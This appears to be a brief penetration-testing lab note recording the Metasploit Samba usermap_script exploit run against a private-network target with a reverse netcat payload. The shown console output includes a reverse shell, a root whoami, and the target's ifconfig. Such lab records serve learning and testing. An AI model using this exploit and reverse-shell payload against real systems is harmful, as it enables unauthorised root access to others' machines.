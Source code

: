 
Exploit Module: exploit/multi/samba/usermap_script
Rank: Excellent
Requirements:
1. Target IP Address (192.168.192.253 in this case)
2. Target Port (139 in this case)
3. Payload (cmd/unix/reverse_netcat in this case)

Exploiting:
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 192.168.192.32:4444 
[*] Command shell session 2 opened (192.168.192.32:4444 -> 192.168.192.253:37316) at 2024-12-02 23:44:15 +0530

whoami
root
ifconfig
eth0      Link encap:Ethernet  HWaddr 08:00:27:04:86:44  
          inet addr:192.168.192.253  Bcast:192.168.192.255  Mask:255.255.255.0
          inet6 addr: 2402:3a80:4280:6e36:a00:27ff:fe04:8644/64 Scope:Global
          inet6 addr: fe80::a00:27ff:fe04:8644/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1905 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1871 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:136666 (133.4 KB)  TX bytes:232345 (226.8 KB)
          Base address:0xd020 Memory:f0200000-f0220000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:492 errors:0 dropped:0 overruns:0 frame:0
          TX packets:492 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:215413 (210.3 KB)  TX bytes:215413 (210.3 KB)

exit

```

Exploit Successful!